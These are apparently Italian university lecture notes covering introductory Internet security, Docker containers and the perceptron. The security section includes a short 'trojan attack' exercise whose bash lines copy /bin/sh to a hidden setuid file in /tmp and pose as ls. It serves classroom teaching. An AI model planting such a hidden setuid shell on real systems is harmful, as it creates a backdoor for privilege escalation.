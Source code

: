 # 2022-03-14
# Cose da cercare
- [ ] [Bug dash](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=%20734869)
- [ ] PSD2
# Internet Security
![[Recording 20220314131117.webm]]

Anche solo fare una copia di file può portare problemidi sicurezza dato che si parla di permessi del file che copiandolo diventa di nostra proprietà

!def Vulnerabilità
Una vulnerabilità è una particolarità del sistema che può essere usato per perpretare azioni con intenzioni malevole

!def Attacco
La vera e propria perpretazione delle azioni malevole

> Noi dovremo imparare inquesto insegnamento metodi e tecniche fondamentali:
> - Crittografia
> - Policy
> - Conoscenza, possesso, biometria
> - Programmi di protezione
> - Protocolli di sicurezza
> - Sensibilizzazione dell'utente

```ad-def 
title:*Sicurezza*

- Non un prodotto ma un processo
- anello più debole di una catena
- Espressa sa che cosa
- Sempre soggeta all'analisi costio/benefici
- Si realizza in ppratica mediante livelli di sicurezza
```
!def Rischi di base per la sicurezza
- complessità del singolo sistema da mettere in sicurezza
- Conbinazione di sistemi
- Predisposizioni ai bug
- Proprietà emergenti
- Interazione con l'uomo

Una proprietà di sicurezza è presente quando è presente un mezzo d'attacco

## Esercizi
````ad-exercise 
title:Attacco trojan
Provare su varie distro Ubuntu

```bash
cp /bin/sh /tmp/.xxsh
chmod u+s,o+x /tmp/.xxsh
rm ./ls
ls $*
```
````

# TAP
## Argomenti
- [[#Docker]]

## Docker
!def Container
Un _container_ è un oggetto contenente la _configurazione_ e tutte le _dipendenze_ necessarie ad un *processo*

La containerizzazione dei processi fornisce isolamento, riutilizzo cross platform, ...

!def Docker vs Virtualizzazione
(Sono totalmente diversi... l'unica cosa che noto in comune è una questione di setup/configuration ed isolamento)
In comune hanno una preparazione del campo per eseguire qualcosa (dipendenze e configurazione)

# Machine Learning

generalmente il machine learning si suddivide in descriminativi e generativi

```ad-def 
title:Discriminativi
Trovare un bound di decisione che deve essere appreso
trovare una probabilità a posteriori $P(y|x)$

Gli algoritmi Deep learning fanno capo a questa categoria
```
```ad-def
title:Generativi
Apprendere la probabilità congiunta $P(y,x) = P(y|x)P(x) = P(x|y)P(y)$ 
```

!def Perceptron
Ideato nel 1958 da [...]; è basato sul design dei neuroni.

- Peso $\delta_j \forall$ Componente $x_j$ normalizzato$
- Normalizzazione: $x_j^{(i)} \in [0,1]$
- Moltiplicazione dei pesi per le componenti di input
- Somma dei prodotti
- Risultato delle somme è confrontato rispetto a t risultando $1$ quando $\sum_{j=1}^{d}{\delta_jx_j}>t$ (biass) altrimenti $0$
- Algoritmo di learning
## Algoritmi di learning
### Grid search
- $t\in\R$ randomica
- $\delta_j \in [0,1]$ provando un numero finito di possibilità per ognuno di loro suddividendo $[0,1]$ in $n$ valori equidistanti
### Back forwarding
- $t\in\R$ randomica
- $\delta_j \in [0,1]$ randomici
- controllo dei risultati e calcolo dell'errore
	- $\hat{y}=sign(\sum_{j=1}^{d}{\delta_jx_j}-t)$
	- dove $t = \delta_0 x_0$;$\;x_0=1$
- correzione dei pesi
  ${\delta_j}_{\tau_1} = {\delta_j}_{\tau_0}+(y-\hat{y})\epsilon \;\forall j$ 

Nel 1969 si dimostrò che il perceptron non basta a risolvere il problema dello ***XOR***
